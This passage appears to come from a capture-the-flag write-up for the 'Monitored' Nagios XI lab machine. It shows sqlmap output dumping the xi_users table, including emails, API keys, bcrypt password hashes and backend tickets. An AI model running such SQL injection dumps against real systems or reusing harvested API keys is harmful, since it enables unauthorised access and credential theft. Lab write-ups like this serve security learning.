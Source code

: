 ```
```

xi_users looks interesting. We can enumerate it:

```
Table: xi_users
[6 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$1c3050a52fe7f09a457e1uxIl3eEKBE87McomD7NxM/6b2bNhJ226 | nagiosadmin | 0          | 1701931372 | 1           | 1705221171  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 8              | 0              | 1705221171           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1705220287   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 11             | 1699697433           |
| 6       | pwned@pwned.com     | pwned                | gurARgnMiFpSgIed7C8bGVNHKZcDMF6d5XU6giBiW5pk7nsq8A6Nqo5gf2pKkqXg | 1       | $2a$10$fe1219651355e97082d53OAxeJyROZajTv9RG7fHVoGGgKVBS0Lhe | pwned       | 0          | 1705220069 | 0           | 0           | 0            | 0            | b83Dmgna0VE4VlDANl6INoX08kDblEiAY3VYBEnclEaVZPVaFHkCA3s2rfEP7vFB | 0              | 0              | 1705217678           |
| 7       | pwned@pwned.com     | test                 | 8Mt9kfPJZjSj2blWsioYW20c3N57YnrqThZXgelTHbOr7IgpJ3VCnWoaPLJQ486l | 1       | $2a$10$1abfec87a3f3ff89fa7b6OQbyyDM0YEb7lv9fhm5PnUnRVbHN1aQG | test        | 0          | 1705218584 | 0           | 0           | 0            | 0            | LDOiDR39gSW9WdgsQJT6YLDYYv5mZTnATifU04lgnnpLH4TrInoqAKCGf7idpeng | 0              | 0              | 1705218592           |
| 8       | pwned@pwned.com     | uwu                  | HTHHVnaiPv290lXjPbC8NthsK7oTjjUWjRZZIUmjTrS2mdvZQdHaiOqKWfZMVYPd | 1       | $2a$10$c576236aaa35d133eb187OH0iiONbDKkxevbOCU7LKs368rpY5.Jq | uwu         | 0          | 1705220963 | 0           | 0           | 0            | 0            | QIEXZHRtvr3ps8kjNDFKCYL6Al2VERICejUrhbDSGbG5IbW4KvFabBmDdq2SlDs8 | 0              | 0              | 1705220973           |
| 10      | pwned@pwned.com     | hex                  | WUZV7eEWf5JXFmpcU2ZE QI6QGZ3iP6nNtZAqc5YjZO2dSneHrjf0qToG85ckV   | 1       | $2a$10$da8081902c26ec324858auG7euU6hWNYCrGD/vQ2jkQa6Y8n5mDp2 | test666     | 0          | 1705221860 | 0           | 1705221904  | 0            | 0            | EjLhv44DRechAK38nFBTZP0muGsTff9f4GHlNfSMSV9KcJOL5vXZiFcuU2AsveaQ | 10             | 0              | 1705221882           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+

[17:55:36] [INFO] table 'nagiosxi.xi_users' dumped to CSV file '/Users/ethanwang/.local/share/sqlmap/output/nagios.monitored.htb/dump/nagiosxi/xi_users.csv'
[17:55:36] [INFO] fetched data logged to text files under '/Users/ethanwang/.local/share/sqlmap/output/nagios.monitored.htb'
```
